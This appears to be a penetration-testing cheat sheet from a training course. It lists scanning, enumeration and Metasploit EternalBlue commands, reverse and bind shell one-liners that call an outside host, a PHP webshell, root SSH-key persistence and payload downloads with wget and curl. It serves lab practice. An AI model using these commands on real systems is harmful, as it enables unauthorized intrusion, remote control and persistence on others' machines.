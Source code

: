 |**Command**|**Description**|
|---|---|
|**General**||
|`sudo openvpn user.ovpn`|Connect to VPN|
|`ifconfig`/`ip a`|Show our IP address|
|`netstat -rn`|Show networks accessible via the VPN|
|`ssh user@10.10.10.10`|SSH to a remote server|
|`ftp 10.129.42.253`|FTP to a remote server|
|**tmux**||
|`tmux`|Start tmux|
|`ctrl+b`|tmux: default prefix|
|`prefix c`|tmux: new window|
|`prefix 1`|tmux: switch to window (`1`)|
|`prefix shift+%`|tmux: split pane vertically|
|`prefix shift+"`|tmux: split pane horizontally|
|`prefix ->`|tmux: switch to the right pane|
|**Vim**||
|`vim file`|vim: open `file` with vim|
|`esc+i`|vim: enter `insert` mode|
|`esc`|vim: back to `normal` mode|
|`x`|vim: Cut character|
|`dw`|vim: Cut word|
|`dd`|vim: Cut full line|
|`yw`|vim: Copy word|
|`yy`|vim: Copy full line|
|`p`|vim: Paste|
|`:1`|vim: Go to line number 1.|
|`:w`|vim: Write the file 'i.e. save'|
|`:q`|vim: Quit|
|`:q!`|vim: Quit without saving|
|`:wq`|vim: Write and quit|

## Pentesting

|**Command**|**Description**|
|---|---|
|**Service Scanning**||
|`nmap 10.129.42.253`|Run nmap on an IP|
|`nmap -sV -sC -p- 10.129.42.253`|Run an nmap script scan on an IP|
|`locate scripts/citrix`|List various available nmap scripts|
|`nmap --script smb-os-discovery.nse -p445 10.10.10.40`|Run an nmap script on an IP|
|`netcat 10.10.10.10 22`|Grab banner of an open port|
|`smbclient -N -L \\\\10.129.42.253`|List SMB Shares|
|`smbclient \\\\10.129.42.253\\users`|Connect to an SMB share|
|`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`|Scan SNMP on an IP|
|`onesixtyone -c dict.txt 10.129.42.254`|Brute force SNMP secret string|
|**Web Enumeration**||
|`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`|Run a directory scan on a website|
|`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`|Run a sub-domain scan on a website|
|`curl -IL https://www.inlanefreight.com`|Grab website banner|
|`whatweb 10.10.10.121`|List details about the webserver/certificates|
|`curl 10.10.10.121/robots.txt`|List potential directories in `robots.txt`|
|`ctrl+U`|View page source (in Firefox)|
|**Public Exploits**||
|`searchsploit openssh 7.2`|Search for public exploits for a web application|
|`msfconsole`|MSF: Start the Metasploit Framework|
|`search exploit eternalblue`|MSF: Search for public exploits in MSF|
|`use exploit/windows/smb/ms17_010_psexec`|MSF: Start using an MSF module|
|`show options`|MSF: Show required options for an MSF module|
|`set RHOSTS 10.10.10.40`|MSF: Set a value for an MSF module option|
|`check`|MSF: Test if the target server is vulnerable|
|`exploit`|MSF: Run the exploit on the target server is vulnerable|
|**Using Shells**||
|`nc -lvnp 1234`|Start a `nc` listener on a local port|
|`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`|Send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`|Another command to send a reverse shell from the remote server|
|`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`|Start a bind shell on the remote server|
|`nc 10.10.10.1 1234`|Connect to a bind shell started on the remote server|
|`python -c 'import pty; pty.spawn("/bin/bash")'`|Upgrade shell TTY (1)|
|`ctrl+z` then `stty raw -echo` then `fg` then `enter` twice|Upgrade shell TTY (2)|
|`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`|Create a webshell php file|
|`curl http://SERVER_IP:PORT/shell.php?cmd=id`|Execute a command on an uploaded webshell|
|**Privilege Escalation**||
|`./linpeas.sh`|Run `linpeas` script to enumerate remote server|
|`sudo -l`|List available `sudo` privileges|
|`sudo -u user /bin/echo Hello World!`|Run a command with `sudo`|
|`sudo su -`|Switch to root user (if we have access to `sudo su`)|
|`sudo su user -`|Switch to a user (if we have access to `sudo su`)|
|`ssh-keygen -f key`|Create a new SSH key|
|`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`|Add the generated public key to the user|
|`ssh root@10.10.10.10 -i key`|SSH to the server with the generated private key|
|**Transferring Files**||
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|